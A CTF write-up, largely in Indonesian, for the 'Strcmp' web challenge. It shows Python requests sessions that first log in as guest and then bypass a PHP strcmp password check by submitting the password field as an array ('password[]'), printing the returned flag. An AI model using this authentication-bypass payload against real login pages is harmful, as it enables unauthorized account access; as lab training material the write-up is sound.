 Web Exploitation
================

<!--ts-->
  * [Strcmp (5)](#strcmp)
  * [Guess The Secret (25)](#guess_the_secret)
  * [Another Secret (25)](#another_secret)
  * [Bank of Ctfs (5)](#bank_of_ctfs)
<!--te-->

Strcmp
======

```409 Solved
Author: abdilahrf  
Point: 5   Difficulties:

Strcmp is used to validate the password that user inputted and check is that a valid password if the password is not valid you can't get the flag! Find a way to get the flag http://chall.ctfs.me:8002/strcmp/
```

Tampilan dari alamat berikut merupakan halaman login yang memasukan username dan password sebagai input, dalam pengerjaan digunakan python interpreter dan library request.
Memasukan username dan password secara acak 

```python
In [1]: import requests
In [2]: r = requests.Session()
In [3]: a = r.post("http://chall.ctfs.me:8002/strcmp/", data={"username":"A", "pas
   ...: sword":"A", "submit":"Login"})
In [4]: a.text
Out[4]: u'<div style="width:100%;color:#fff;"><b style="color:#000;">Login page</b> guest:guest</div>\n<form method="post" action="" >\n<input type="text" name="username" />\n<input type="password" name="password" />\n<input type="submit" name="submit" value="Login" />\n</form>\n'

```

melakukan request kembali dengan username guest dan password guest

```python
In [5]: a = r.post("http://chall.ctfs.me:8002/strcmp/", data={"username":"guest", "pas
   ...: sword":"guest", "submit":"Login"})
In [6]: a.text
Out[6]:  u'Welcome Guest, to get flag you must login as admin<div style="width:100%;color:#fff;"><b style="color:#000;">Login page</b> guest:guest</div>\n<form method="post" action="" >\n<input type="text" name="username" />\n<input type="password" name="password" />\n<input type="submit" name="submit" value="Login" />\n</form>\n'

```

Seperti pada nama soal kemungkinan authentikasi yang digunakan pada password adalah strcmp, vulnerability pada strcmp adalah apabila string dicompare dengan tipe lain seperti array misalnya, maka untuk mengerjakan soal ini digunakan request seperti berikut

```python
In [7]: a = r.post("http://chall.ctfs.me:8002/strcmp/", data={"username":"admin", "pas
   ...: sword[]":"A", "submit":"Login"})
In [8]: a.text
Out[8]:  u'flag : CTFS{strcmp_is_a_nightmare}<div style="width:100%;color:#fff;"><b style="color:#000;">Login page</b> guest:guest</div>\n<form method="post" action="" >\n<input type="text" name="username" />\n<input type="password" name="password" />\n<input type="submit" name="submit" value="Login" />\n</form>\n'

```
Flag :

```bash
CTFS{strcmp_is_a_nightmare}
```
